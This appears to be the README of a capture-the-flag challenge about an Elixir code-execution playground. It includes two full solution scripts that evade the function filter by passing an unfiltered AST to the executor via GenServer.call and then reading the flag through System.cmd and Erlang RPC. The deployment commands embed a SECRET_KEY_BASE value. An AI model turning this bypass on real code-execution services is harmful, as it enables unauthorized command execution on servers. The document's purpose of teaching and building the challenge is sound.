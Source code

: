 # Elixir web-ish challenge

## idea

Players are granted access to a system allowing for limited Elixir code execution on the server, with a filter disallowing many/most dangerous functions.

Filtering and executing code have been split into separate functionality, with the executor itself running as a server on a separate node from the website frontend.

Functions allowing for sending/receiving messages between processes are still allowed, however, and knowing the name of an executor, unfiltered code can be sent to the executor.

Taking advantage of this, an AST containing system command / file read operations / anything can be sent and executed on the executor node using a call to  `GenServer.call` (or raw `send`/`receive` pair)

When the application's run in distributed mode, however, the flag is _not_ located on the executor node, so we need to get back to the web node. Erlang's built-in RPC functionality can be used to do this.

## solutions

### code execution (local variant)

```
ast = Code.string_to_quoted """
{output, status} = System.cmd("cat", ["flag"])
output
"""

{{:ok, flag}, bindings, stderr} =  GenServer.call({:global, Playground.Executor}, {:eval, ast, []})

IO.puts flag
```

### code execution (distributed)

```
ast = Code.string_to_quoted """
nodes = Node.list
web_node = hd nodes
{output, status} = :rpc.call(web_node, System, :cmd, ["cat", ["flag"]])
output
"""

{{:ok, flag}, bindings, stderr} =  GenServer.call({:global, Playground.Executor}, {:eval, ast, []})

IO.puts flag
```

## Running development/test (docker)

Build yourself the docker container

Pass a SECRET_KEY_BASE value to the container and expose port 4000

e.g:

`docker run -e SECRET_KEY_BASE=AkfxqjQOEfhbdVLhUkQcKNMijFYj/EXE3nRJu3nTh34uOWHQ/iv5PfKkTuGfnlsU -e PLAYGROUND_ROLE=all -e PHX_HOST=localhost -p4000:4000 chal`

## Running (full version)

(tested using `podman` instead of `docker`, tweaking may be required depending on context)

1. We need an isolated network for our two containers to communicate: 
  `podman network create playground`

2. Start the main, web container with the webserver exposed (on port 4000):
   `podman run -e SECRET_KEY_BASE=AkfxqjQOEfhbdVLhUkQcKNMijFYj/EXE3nRJu3nTh34uOWHQ/iv5PfKkTuGfnlsU -e PLAYGROUND_ROLE=web -e PHX_HOST=localhost -e RELEASE_DISTRIBUTION=name -e RELEASE_NODE=web@web.playground --network playground -p4000:4000 --network-alias web.playground d:latest`

3. Start the executor instance:
   `podman run -e SECRET_KEY_BASE=AkfxqjQOEfhbdVLhUkQcKNMijFYj/EXE3nRJu3nTh34uOWHQ/iv5PfKkTuGfnlsU -e PLAYGROUND_ROLE=executor -e PHX_HOST=localhost -e RELEASE_DISTRIBUTION=name -e RELEASE_NODE=executor@executor.playground --network-alias executor.playground --network playground d:latest`


Explanation of environment variables:

- `PLAYGROUND_ROLE` controls which type of system gets run (we need one each of web/executor - "all" can also be used to run both within one node, and is the default).
- `PHX_HOST` configures hostname checking for the website. change to the domain name players will be connecting to.
- `RELEASE_DISTRIBUTION` and `RELEASE_NODE` control each node's hostname to each other. `RELEASE_NODE` should end in an IP address or hostname reachable by the other node

## TODO list

- put flag only on `web` container
- tune difficulty

